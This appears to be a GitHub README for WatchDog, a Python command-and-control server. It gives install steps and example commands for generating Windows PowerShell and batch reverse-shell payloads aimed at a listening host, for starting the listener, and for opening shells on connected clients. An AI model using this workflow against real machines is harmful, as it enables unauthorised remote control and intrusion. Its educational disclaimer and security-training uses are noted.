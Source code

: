 # WatchDog
WatchDog is a simple Python-based command and control (C2) server that allows you to manage and interact with multiple clients remotely. It provides a basic shell interface for executing commands on connected clients, checking their status, and generating payload scripts for reverse shell connections.

# Features
Multi-client Support:      WatchDog can handle multiple client connections simultaneously.
Payload Generation:        Generate payload scripts for various platforms and network configurations.
Client Status Monitoring:  Keep track of connected clients and receive notifications when clients disconnect.
Basic Shell Interface:     Interact with connected clients using a shell-like interface.

# Installation
```python
git clone https://github.com/llc1234/WatchDog.git
cd WatchDog
python WatchDog.py
```

# Usage
WatchDog uses a simple command-line interface to manage various functionalities. Here are some key commands:

generate
Generate a payload for a reverse shell connection.
```python
generate payload=<payload_type> lhost=<local_host> lport=<local_port>
generate payload=<payload_type> lport=<local_port>
```

server
Configure the server settings and start listening for incoming connections.
```python
server rhost=<remote_host> rport=<remote_port> listening=<true/false>
server rport=<remote_port> listening=<true/false>
```

# sessions
List all currently connected clients.

# shell <client_number>
Open a shell interface to interact with a specific connected client.

# help
Display help information with examples of command usage.

# Example Usage
Generate a payload for a Windows PowerShell reverse TCP connection:
```python
generate payload=windows/powershell/reverse_tcp lhost=192.168.10.1 lport=5050
generate payload=windows/powershell/reverse_tcp lport=5050

generate payload=windows/batch/reverse_tcp lhost=192.168.10.1 lport=5050
generate payload=windows/batch/reverse_tcp lport=5050
```

Start the server and listen for incoming connections:
```python
server rhost=192.168.10.1 rport=5050 listening=true
server rport=5050 listening=true
```

View the list of connected clients:
```python
sessions
```

Interact with a specific client:
```python
shell 0
```


# Disclaimer
This project is for educational purposes only. The use of WatchDog for any malicious activity is strictly prohibited. The authors are not responsible for any misuse or damage caused by this software.

# Contributing
Feel free to contribute to the development of WatchDog by submitting issues or pull requests. Your feedback and contributions are highly appreciated.
